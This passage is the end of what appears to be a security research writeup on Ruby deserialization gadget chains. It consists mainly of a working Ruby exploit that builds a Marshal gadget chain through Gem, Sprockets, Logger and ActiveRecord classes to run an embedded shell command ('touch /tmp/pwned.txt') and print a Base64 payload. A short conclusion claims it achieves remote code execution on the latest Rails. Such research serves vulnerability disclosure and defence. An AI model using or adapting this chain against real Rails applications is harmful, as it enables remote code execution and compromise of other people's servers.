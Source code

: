 ```ruby
d1=Gem::Security::Policy.allocate
d1.instance_variable_set(:@name,{ :filename => "/tmp/xyz.txt", :environment => d0  , :data => "<%= `touch /tmp/pwned.txt` %>", :metadata => {}})

d2=Set.new([d1])

d.instance_variable_set(:@body, d2)
d.instance_variable_set(:@writer, Sprockets::ERBProcessor.allocate)

c=Logger.allocate
c.instance_variable_set(:@logdev, d)

e=Gem::Package::TarReader::Entry.allocate
e.instance_variable_set(:@read,2)
e.instance_variable_set(:@header,"bbbb")

b=Net::BufferedIO.allocate
b.instance_variable_set(:@io,e)
b.instance_variable_set(:@debug_output,c)

$a=Gem::Package::TarReader.allocate
$a.instance_variable_set(:@io,b)

module ActiveRecord
    module Associations
        class Association
            def marshal_dump
                # Gem::Installer instance is also set here
		# because it autoloads Gem::Package which is
		# required in rest of the chain
                [Gem::Installer.allocate,$a] 
            end
        end
    end
end

final = ActiveRecord::Associations::Association.allocate
puts Base64.encode64(Marshal.dump(final))
```

## Conclusion

In this writeup we went over the current state of previous ruby deserialization gadget chains and the process of finding new RCE gadgets. We went over the fixes of previous gadget chains and found a new way to achive remote code execution on latest Rails framework.

Thank you for taking the time to read this! If you enjoyed this and other articles in this repository, please consider retweeting and following [HTTPVoid on Twitter](https://twitter.com/httpvoid0x2f). Feel free to correct us if there's any mistake. Contact us at hello [@] httpvoid.com if you believe we can be of any assistance to you.

**Dhanyawad!**
